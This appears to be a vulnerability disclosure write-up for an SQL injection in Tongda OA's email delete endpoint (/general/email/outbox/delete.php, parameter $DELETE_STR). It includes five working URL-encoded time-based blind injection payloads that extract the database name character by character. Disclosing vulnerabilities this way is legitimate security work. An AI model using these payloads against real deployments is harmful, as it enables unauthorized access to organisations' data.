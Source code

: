 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![t1](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\t1.png)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![image-20240126094241423](C:\Users\RockerShao\AppData\Roaming\Typora\typora-user-images\image-20240126094241423.png)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126094806730](C:\Users\RockerShao\AppData\Roaming\Typora\typora-user-images\image-20240126094806730.png)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095114500](C:\Users\RockerShao\AppData\Roaming\Typora\typora-user-images\image-20240126095114500.png)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095822818](C:\Users\RockerShao\AppData\Roaming\Typora\typora-user-images\image-20240126095822818.png)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095911470](C:\Users\RockerShao\AppData\Roaming\Typora\typora-user-images\image-20240126095911470.png)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126100122531](C:\Users\RockerShao\AppData\Roaming\Typora\typora-user-images\image-20240126100122531.png)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126100029696](C:\Users\RockerShao\AppData\Roaming\Typora\typora-user-images\image-20240126100029696.png)

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa